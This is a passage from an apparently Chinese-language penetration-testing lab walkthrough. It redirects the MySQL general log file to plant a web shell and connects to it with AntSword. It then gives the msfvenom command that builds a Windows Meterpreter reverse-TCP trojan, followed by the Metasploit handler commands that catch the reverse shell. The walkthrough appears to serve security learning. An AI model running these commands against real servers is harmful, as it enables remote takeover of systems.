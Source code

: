![image-20211220092104020](https://gitee.com/xxb667/img/raw/master/img/image-20211220092104020.png)



![image-20211214192205996](https://gitee.com/xxb667/img/raw/master/img/image-20211214192205996.png)

再次进入【变量】

   把general log_file的路径中的文件名换成刚才新建的文件名

![](https://gitee.com/xxb667/img/raw/master/img/20211220095842.png)





## 4.用中国蚁剑进行连接

### 建立连接

注意后缀名和密码

点击测试连接--连接成功--保存这个状态

![image-20211220092951504](https://gitee.com/xxb667/img/raw/master/img/image-20211220092951504.png)



### 用kali生成木马文件

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.59.134 LPORT=4444 -f exe -o /home/kali/xxb.exe
```

#### 注意

LHOST的IP地址

和/home/kali/xxb.exe的路径和文件名

建议把文件名改成自己想的名字





### 把生成的文件上传到服务器

![image-20211220093156310](https://gitee.com/xxb667/img/raw/master/img/image-20211220093156310.png)



### 用kali进行监听

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.0.32
set lport 4444
run
```
